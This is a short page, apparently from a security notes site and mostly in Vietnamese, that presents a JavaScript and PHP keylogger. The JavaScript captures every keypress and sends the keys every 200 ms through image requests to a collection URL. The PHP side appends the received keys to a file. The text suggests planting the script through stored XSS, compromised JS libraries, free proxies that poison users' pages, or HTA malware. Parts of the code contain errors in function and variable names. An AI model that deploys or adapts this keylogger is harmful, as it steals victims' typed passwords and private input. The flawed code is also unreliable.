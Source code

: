 ```yaml
---
title: Javascript,PHP Keylogger
date: 30/5/2021
layout: single

--- 
```

---
## Credits: Ismailtasdelen
[https://dl.packetstormsecurity.net/papers/general/xss-keylogger.pdf](https://dl.packetstormsecurity.net/papers/general/xss-keylogger.pdf) 
## Language
[![Language](https://img.shields.io/badge/Lang-javascript-blue.svg)](https://www.javascript.com/)
[![Language](https://img.shields.io/badge/Lang-php-blue.svg)](https://www.php.net/)


--- 

## Mã Kiểm Tra 

# Javascript

```js
var buffer = [];
var url = 'http://localhost/?q='

document.onkeypress = function(e) {
    var timestamp = Date.now() | 0;
    var stroke = {
          k: e.key,
          t: timestamp
    };
    buffer.push(stroke);
}

window.SetInterval(function() {
    if (buffer.length > 0) {
          var data = encodeURIComponent(JSON.stringify(buffer));
          new Image().src = url + data;
          buffer = [];
    }
}, 200);
```

---
# PHP

```php
<?php
if(!empty($_GET['q'])) {
    $logfile = fopen('data.txt', 'a+');
    file_write($log_file, $_GET['q']);
    file_close($log_file);
}
?>

```
---


# Mô Tả 
## Làm thế nào nó hoạt động?
Trên trình kích hoạt: onkeypress. Phím được nhấn bởi máy khách sẽ được gửi đến máy chủ trên localhost /? Q = (key_here)
Máy chủ sẽ nhận điều này thông qua tập lệnh PHP: Nhận đầu vào từ Q và ghi vào tệp.

Những cải tiến có thể được thực hiện: Ví dụ: triển khai websockets, Ajax, v.v. và gửi dữ liệu trong thời gian thực.

## Tôi có thể sử dụng cái này ở đâu?
XSS được lưu trữ trên các trang web? Thỏa hiệp các thư viện / trang web JS và nhúng JS độc hại.
Chạy proxy miễn phí của riêng bạn và đầu độc người dùng bằng JS độc hại (và bộ nhớ cache) Xem tại link bên dưới 
+ [ https://blog.haschek.at/2013/05/why-free-proxies-are-free-js-infection.html]( https://blog.haschek.at/2013/05/why-free-proxies-are-free-js-infection.html) 
+ [ https://blog.haschek.at/2015-analyzing-443-free-proxies](https://blog.haschek.at/2015-analyzing-443-free-proxies) 

Tạo khối lượng phần mềm độc hại của riêng bạn với HTA: html có thể thực thi, v.v.
Chỉ là một số ý tưởng.

## Chúc May Mắn :D
